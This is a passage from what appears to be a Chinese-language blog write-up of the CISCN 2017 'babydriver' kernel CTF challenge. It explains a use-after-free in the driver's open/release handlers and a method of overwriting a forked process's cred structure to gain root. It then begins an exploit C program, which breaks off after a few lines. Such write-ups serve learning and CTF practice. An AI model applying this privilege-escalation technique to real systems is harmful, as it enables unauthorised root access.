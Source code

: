```yaml
---
layout: post
tags: [kernel_pwn]
title: "ciscn 2017 babydriver 复现(UAF 堆块隔离绕过/ptmx)"
date: 2022-10-20
author: wsxk
comments: true
---
```


- [题目分析](#题目分析)
- [漏洞利用](#漏洞利用)
  - [1.通过劫持进程cred结构体获得root](#1通过劫持进程cred结构体获得root)
  - [2.堆块隔离绕过](#2堆块隔离绕过)
  - [ptmx](#ptmx)
  - [堆块隔离绕过时存在的问题](#堆块隔离绕过时存在的问题)
- [references](#references)



<script async src="https://www.googletagmanager.com/gtag/js?id=G-C22S5YSYL7"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'G-C22S5YSYL7');
</script>


## 题目分析<br>
关键函数如下
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-6-27-DNS/20221021195941.png)<br>
问题出现在`babyopen`和`babyrelease`函数上（在打开设备和关闭设备时运行的函数）
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-6-27-DNS/20221021200430.png)<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-6-27-DNS/20221021200525.png)<br>
如果在同一个程序上open 该设备两次，会获得2个fd，2个fd同时具有对babydev_struct的控制权（`babydev_struct是一个全局变量`)<br>
此时如果close一个fd，但是指针没有置0，存在`UAF`漏洞<br>

## 漏洞利用<br>
关于`UAF`漏洞的利用，常见思路是`劫持存在函数指针的结构体`<br>
具体原理是，linux内核的所有结构体都是通过`slub分配器`分配的，如果你free了一个内核的chunk，之后进行某些操作时，内核又需要申请chunk，且free的chunk和申请的chunk大小一致，那么你free的chunk就会分配给内核。如果内核使用的chunk存在函数指针，我们就可以通过修改函数指针来完成控制流劫持。（slub详情请翻阅前文）<br>
### 1.通过劫持进程cred结构体获得root<br>
原始做法，释放chunk后，通过fork创建子进程，通过劫持子进程cred结构体，设置uid和gid为0，获得shell。十分简单<br>
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/types.h>

int main(void)
{
    printf("\033[34m\033[1m[*] Start to exploit...\033[0m\n");

    int fd1 = open("/dev/babydev", 2);
    int fd2 = open("/dev/babydev", 2);

    ioctl(fd1, 0x10001, 0xa8);
```